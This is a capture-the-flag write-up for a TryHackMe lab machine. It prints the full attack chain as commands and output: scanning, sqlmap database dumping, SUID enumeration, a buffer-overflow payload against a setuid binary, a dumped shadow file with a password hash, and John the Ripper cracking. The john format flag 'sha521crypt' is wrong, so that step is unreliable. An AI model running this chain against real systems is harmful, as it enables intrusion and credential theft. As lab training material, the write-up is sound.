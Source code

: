 # The Code Caper - Write-Up by unguest
This write-up may be intended only for those who already finished this box. However, you can have a quick look at it if you're totally lost.

This box can be found at (login required) : https://tryhackme.com/room/thecodcaper

## I - Host enumeration
For this part, I'm using this command : 
```bash
nmap -p 1-1000 -sV -sS <ip>
```

-p 1-1000 => Scan only the 1000 first ports

-sV => Get the services' version (as we're blind for now, I expected to find a vulnerable service with a CVE)

-sS => Perform a SYN-STEALTH scan

Here is the output of the scan : 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 18:40 CEST
Nmap scan report for 10.10.212.142
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds

```

From this output, we can have all the informmation needed to answer the three following questions :

### Question 1
We have 2 ports opened on this machine : 22 & 80

### Question 2
The webpage's (http://<ip>/index.html) title is "Apache2 Ubuntu Default Page: It works"

### Question 3
The SSH version is OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

## II - Web Enumeration
For this part, I used gobuster as suggested as long as dirb doesn't handle files but only directories.

```
gobuster dir -x php,txt,html --wordlist /usr/share/wordlists/dirb/big.txt --url <ip>
```

Please note that the path I'm using here only works for the Kali distro. You may need to download it manually if your distro doesn't come with it natively.

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.212.142
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html                                                                                                                                                                                                           
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/04/08 18:48:50 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/administrator.php (Status: 200)
```

I stopped the script as soon as I saw the administrator.php file : I knew it was the 'important file' of the server.

## III - Web Exploitation
As I knew their won't be many records in the database, I didn't use the -all sub-flag.

My exploiting command was tho : 

```bash
sqlmap -u <ip>/administrator.php --forms --dump
```

Then we have the 2 credentials that appears... magically :p.

## IV - Command Execution
Firstly, I want to say a big thanks to Psyrkoz#0405 & MuirlandOracle#2721 who debugged me. In fact, This part was the most costful in time on the whole box.

At a glance, I think everyone would use this command : 

```bash
find /* -user pingu
```

But We have many other users and here www-data is our candidate ! 

```bash
find /* -user www-data
```
is returning us 
```bash
 /var/hidden/pass 
 ```
 on its last line, which clearly shows us the way to go !

## V - LinEnum
To 'inject' LinEdum into the system, I ran into a rough and raw solution (that I don't recommend even if I used it) : Copy/Paste the content of [linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) through a SSH session (now we have the SSH password of Pingu, let's exploit it !).

Then I ran this command : 

```bash
chmod +x ./linenum.sh
./linenum.sh | grep SUID -A30
```
And as a part of the output, we find this : 

```bash
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
```

As we can see, the first line looks pretty... unusual and it is : It's the answer of this part !

## VI - Binary-Exploitation
I choosed to pass through the manual version of this part so I'll not cover the python part. In fact, the explanation is alreadyb a write-up to it.

After playing a bit with gdb, it looks like the size of our payload has to be 44 chars. Even if it's said, I really encourage you to (re)discover it by yourself.

Then, to access our shell function, I've just pasted the python command they give us :

```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

Which give us an output like this : 

```
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
```

## VII - Password Cracking
I used John The Ripper (as I get used to it) and the command looks something like this : 

```
john --format=sha521crypt -w /usr/share/wordlists/rockyou.txt papa.hash
```
And there you are : Root password is owned !

## VIII - Conclusion

I found this box pretty easy even if I stuck on the command execution part.
By the way, I you found any error or have any improvment to share with this write-up, I'm waiting for your PRs :p
